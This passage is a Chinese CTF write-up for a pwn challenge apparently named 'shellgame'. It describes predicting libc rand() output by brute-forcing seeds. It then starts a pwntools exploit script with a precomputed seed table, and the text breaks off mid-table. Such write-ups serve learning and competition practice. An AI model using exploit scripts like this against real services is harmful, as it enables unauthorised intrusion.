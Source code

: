 :::



### 脚本编写

脚本的编写较为复杂。因为现场环境存在一个 timeout 的问题，所以我们选择了预打表的方式，打出了第一个随机数为 `0~255` 时的随机数种子以及下两个随机数用于设置 name，在本地测试了置换表之后打出了置换顺序（打的是 145 字节的表，不够的就补全 0 了）

在拿到 `gift` 之后，通过爆破 `0~255` 的随机数种子确定随机数，然后获取完整 name 保存备用。

之后就是 name 的设置，这个当时写的比较丑陋，也没有优化，就将就着看吧（笑



整体 exp 写的不是很满意，因为 name 涉及到数据类型，python 处理的并不是很好，用了 numpy 的 np.int8，但是没用太明白，效率有点低。

在这种大赛里时间确实宝贵，感觉还是得学学 python 里的数据处理或者直接用 C 写。

~~还好还是拿到了一血~~

最终 exp:

```python
from pwn import *
from ctypes import *
from typing import List
from Crypto.Util.number import *
import numpy as np
context.log_level="DEBUG"
context.terminal = "wt.exe nt bash -c".split()
context(arch='amd64', os='linux')

HOST='localhost'
# HOST='172.35.6.100'
PORT=11451
p = remote(HOST, PORT)
# p = process(['./shellgame'])

libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")


table = {
-128:[118, [-128, 67, 202]],
-127:[300, [-127, 46, 15]],
-126:[1404, [-126, 241, 154]],
-125:[172, [-125, 213, 36]],
-124:[694, [-124, 23, 128]],
-123:[188, [-123, 79, 132]],
-122:[159, [-122, 222, 16]],
-121:[227, [-121, 238, 138]],
-120:[35, [-120, 249, 143]],
-119:[179, [-119, 242, 185]],
-118:[68, [-118, 216, 98]],
-117:[466, [-117, 21, 86]],
-116:[333, [-116, 227, 57]],
-115:[316, [-115, 54, 233]],
-114:[93, [-114, 153, 96]],
-113:[67, [-113, 47, 91]],
-112:[512, [-112, 232, 237]],
-111:[411, [-111, 65, 154]],
-110:[45, [-110, 59, 11]],
-109:[191, [-109, 46, 104]],
-108:[71, [-108, 3, 52]],
-107:[658, [-107, 215, 201]],
-106:[705, [-106, 236, 115]],
-105:[223, [-105, 110, 96]],
-104:[236, [-104, 105, 187]],
-103:[51, [-103, 143, 116]],
```